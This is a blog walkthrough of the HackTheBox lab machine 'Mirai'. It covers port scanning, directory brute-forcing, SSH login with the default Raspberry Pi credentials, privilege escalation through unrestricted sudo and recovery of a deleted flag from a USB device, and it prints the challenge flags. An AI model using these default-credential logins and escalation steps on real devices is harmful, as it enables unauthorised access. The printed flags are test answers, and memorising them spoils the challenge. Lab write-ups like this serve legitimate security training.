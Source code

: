 ```yaml
---
layout: post
title: Hackthebox Mirai Walkthrough
categories: HackTheBox
---
```


![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-10/mirai-badge.png)

# Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
This is a walkthrough of a box `Mirai`.<br>

# Solution
## 1. Initial Enumeration
### TCP Port Scanning:
```shell
root@kali:~# nmap -p- 10.10.10.48 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-10 09:35 EEST
Nmap scan report for 10.10.10.48
Host is up (0.033s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1050/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-title: Unauthorized
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.07 seconds
```

### Gobuster HTTP:
```shell
root@kali:~# gobuster dir -u http://10.10.10.48 -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.48
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/10 09:37:20 Starting gobuster
===============================================================
/admin (Status: 301)
/swfobject.js (Status: 200)
===============================================================
2020/04/10 09:37:36 Finished
===============================================================
```


## 2. Getting User
We found an admin console in `10.10.10.48/admin/`.<br>
The name of the service is `Pi-hole`.
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-10/2020-04-10-10-30-38.png)

The default password for `Pi-hole`is `pi:raspberry`.<br>
We can use it for the SSH login.
```shell
root@kali:~# sshpass -p raspberry ssh pi@10.10.10.48

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 10 06:49:57 2020 from 10.10.14.32 

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed. 
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```

Now we got an user `pi`.<br>
`user.txt` is in a directory `/home/pi/Desktop`.
```shell
pi@raspberrypi:~ $ cat Desktop/user.txt 
ff837707441b257a20e32199d7c8838d
```


## 3. Getting Root
Using `sudo -l`, we can find out that we can run any command with root privilege.
```shell
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Change the user and go to `/root`.<br>
We have `root.txt` which says we don't have the flag here.
```shell
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Using `df -h`, we can find out `/dev/sdb` is mounted on `/media/usbstick`.
```shell
root@raspberrypi:~# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  34% /
tmpfs           100M  4.8M   96M   5% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  34% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M  8.0K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            50M     0   50M   0% /run/user/999
tmpfs            50M     0   50M   0% /run/user/1000
```

Then, go to `/media/usbstick`.<br>
There is an interesting file `damnit.txt`.
```shell
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Sounds `root.txt` has been deleted already.<br>
We can find the flag by running `strings`.
```shell
root@raspberrypi:~# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt                                                                                         
damnit.txt                                                                                       
>r &                                                                                             
3d3e483143ff12ec505d026fa13e020b                                                                 
Damnit! Sorry man I accidentally deleted your files off the USB stick.                           
Do you know if there is any way to get them back?                                                
-James
```
